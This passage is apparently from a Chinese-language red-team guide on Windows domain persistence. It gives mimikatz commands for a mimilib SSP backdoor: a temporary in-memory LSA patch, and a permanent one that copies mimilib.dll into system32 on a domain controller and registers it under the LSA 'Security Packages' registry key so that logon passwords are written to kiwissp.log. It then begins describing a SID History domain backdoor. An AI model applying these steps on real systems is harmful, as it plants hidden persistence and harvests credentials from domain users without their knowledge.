#### [](#231-mimilib-ssp)2.3.1 mimilib SSP

> 由于是针对本机的 LSA 进行 Patch，因此本方法只针对在当前机器上登录的用户起作用

##### [](#2311-%E9%80%9A%E8%BF%87%E5%86%85%E5%AD%98%E6%9B%B4%E6%96%B0%E7%95%99%E5%90%8E%E9%97%A8%E4%B8%B4%E6%97%B6)2.3.1.1 通过内存更新留后门（临时）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::memssp<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209135146.png-water_print](assets/1699409504-3c05e347523354ac6d5c9d2d98868806.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209135146.png-water_print")

##### [](#2312-%E9%80%9A%E8%BF%87%E4%BF%AE%E6%94%B9%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%95%99%E5%90%8E%E9%97%A8%E6%B0%B8%E4%B9%85)2.3.1.2 通过修改注册表留后门（永久）

使用此方法即使系统重启，也不会影响到持久化的效果

1.  添加 `mimilib.dll` 到域控 `C:\windows\system32` 下

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>copy mimilib.dll %systemroot%\system32<br>``` |

> **注：**
> 
> 64 位系统要用 64 位的 mimilib.dll，32 位的会失败

2.  设置 SSP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"<br>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ<br>``` |

3.  重启系统

域控重启后在 `c:\windows\system32` 可看到新生成的文件 `kiwissp.log`

### [](#24-sid-history-%E5%9F%9F%E5%90%8E%E9%97%A8)2.4 SID History 域后门

> 每个用户帐号都有一个关联的安全标识符（简称 SID），SID 用于跟踪安全主体在访问资源时的帐户与访问权限。为了支持 AD 迁移，微软设计了 SID History 属性，SID History 允许另一个帐户的访问被有效的克隆到另一个帐户。通过 SID History 可让用户拥有不同身份的权限，在单域中同样有效。
